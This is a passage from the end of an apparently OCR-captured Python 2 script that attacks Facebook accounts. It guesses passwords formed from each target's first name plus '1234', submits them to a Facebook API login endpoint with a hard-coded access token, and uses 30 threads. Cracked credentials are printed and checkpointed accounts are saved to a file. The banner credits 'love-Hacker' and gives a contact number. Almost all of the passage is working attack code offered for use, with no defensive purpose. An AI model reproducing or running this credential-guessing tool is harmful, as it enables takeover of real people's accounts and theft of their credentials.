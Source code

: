 															pass7 = b['first_name'] + '1234'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;91mHack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;94mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;92m•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•\033[1;91mKali.Linux\033[1;92m•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•"
	print "  \033[1;93m«---•◈•---Developed By love-Hacker--•◈•---»" #Dev:love_hacker
	print '\033[1;91m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 Nethuntter)↩\033[1;92m....'
	print"\033[1;91mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;97m/\033[1;92m"+str(len(cekpoint))
	print """
             
                 ┈┈┈╲┈┈┈┈╱┈┈┈
                 ┈┈┈╱▔▔▔▔╲┈┈┈
                 ┈┈┃┈▇┈┈▇┈┃┈┈┈
                 ╭╮┣━━━━━━┫╭╮
                 ┃┃┃┈┈┈┈┈┈┃┃┃
                 ╰╯┃┈┈┈┈┈┈┃╰╯
                 ┈┈╰┓┏━━┓┏╯┈┈
                 ┈┈┈╰╯┈┈╰╯┈┈┈
•\033[1;92m◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•.
: \033[1;91m .....lovehacker  Kali.linux........... \033[1;91m :
•\033[1;92m◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•.' 
                WhatsApp Num
              \033[1;93m +923094161457"""
	
	raw_input("\n\033[1;92m[\033[1;91mBack\033[1;96m]")
	menu()

if __name__ == '__main__':
	login()
